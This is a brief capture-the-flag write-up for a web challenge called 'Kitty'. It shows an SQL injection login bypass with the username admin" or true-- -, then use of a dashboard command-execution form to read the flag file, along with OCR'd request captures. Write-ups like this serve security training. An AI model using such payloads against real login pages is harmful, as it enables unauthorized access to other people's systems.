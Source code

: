 # Kitty
> Tetanus is a serious, potentially life-threatening infection that can be transmitted by an animal bite.

## About the Challenge
We got a website without the source code, and on this website it looks like we need to bypass the login page


[Image extracted text: Login
Username
Password
Login]


## How to Solve?
The login page is vulnerable to SQL injection, to bypass the login page we need to input this username and password:

```
U: admin" or true-- -
P: test
```


[Image extracted text: Request
Response
Pretty
Raw
Hex
3)
In
=
Pretty
Raw
Hex
Render
In
POST /login HTTP/1.1
HTTP/ 1.0
200
OK
2
Host:
45.33.123.243:5020
Content-Type
application/json
3 Content-Length:
52
3
Content-Length:
32
User-Agent:
Mozilla/5.0
(Windows
NT
10.0;
Win64;
X64)
AppleWebKit/537.36
4 Vary
Cookie
(KHTML ,
like
Gecko)
Chrome/120.0.6099.216 Safari/537.36
5
Set-Cookie:
session=
5
Content-Type=
application/json
eyJhdXRoZWSOaWNhdGVkIjpocnVlfq
ZaOrPA. emSx3cdPMVNVi-8EFZBEOGO2y4I;
HttpOnly;
6
Accept:
x/*
Path-/
Origin:
http://45.33.123.243
5020
Server:
Werkzeug/2.0.3 Python/3.6.15
8
Referer:
1/45.33.123
243:5020/
Date:
Sun ,
21
Jan
2024
14:33:32
GMT
Accept-Encoding
gzip,
deflate,
br
10
Accept-Language:
en-US, en;q-0.9
11
Cookie:
PHPSESSID-a3552603c979aea5a10acd9db11908c0
'message"
Login
successful!"
12
Connection:
close
13
10
14
username
'admin|
or
true _
password 
test"
http:]


And then inside the dashboard, there is another form where we can execute OS command


[Image extracted text: Enter Post:
Execute]


To obtain the flag, input `cat flag.txt`


[Image extracted text: Flag Post
KCTF{Fram3s_n3vE9_Lle_4_toGEtH3R}
Enter Post:
cat flag txt
Execute]


```
KCTF{Fram3S_n3vE9_L1e_4_toGEtH3R}
```